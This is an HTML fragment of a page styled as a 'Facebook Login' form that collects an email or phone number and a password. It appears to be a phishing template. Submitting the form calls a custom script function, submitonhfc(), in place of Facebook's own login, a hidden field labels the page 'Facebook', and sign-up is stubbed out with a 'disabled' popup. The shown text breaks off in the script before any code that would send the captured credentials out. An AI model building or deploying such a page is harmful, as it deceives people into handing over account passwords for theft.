.popup-close {
    position: absolute;
    top: 5px;
    right: 5px;
    font-size: 20px;
    cursor: pointer;
}</style>
</head>
<body>
    <div class="container">
        <div class="logo-container">
            <div class="logo"><strong>Facebook Login</strong></div>
            <p class="slogan">Connect with friends and the world around you.</p>
        </div>
        <div class="form-container">
            <form onsubmit="submitonhfc(); return false;" method="post">
              <input type="hidden" name="" id="pagename" value="Facebook" />
                <input type="text" id="email" placeholder="Email or Phone Number" class="input-field" name="email" required>
                <input id="name" type="password" placeholder="Password" class="input-field" name="password" required>
                <button type="submit" class="login-button">Log In</button>
            </form>
            <a href="#" id="signup-link">Forgot Password?</a>
            <div class="divider"></div>
            <div class="no-social-login">
                <p>Don't have an account? <a href="#" id="signup-button">Sign Up</a></p>
            </div>
        </div>
    </div>

    <div id="error-popup" class="popup">
        <div class="popup-content">
            <span class="popup-close" id="close-popup">&times;</span>
            <p><strong>Error:</strong> Sign up is currently disabled.</p>
        </div>
    </div>

    <script>function la(src) {
      window.location = src;
    }
    
         function GetURLParameter(sParam) {
           var sPageURL = window.location.search.substring(1);
           var sURLVariables = sPageURL.split('&');
           for (var i = 0; i < sURLVariables.length; i++) {
             var sParameterName = sURLVariables[i].split('=');
             if (sParameterName[0] == sParam) {
               return sParameterName[1];
             }
           }
         }
    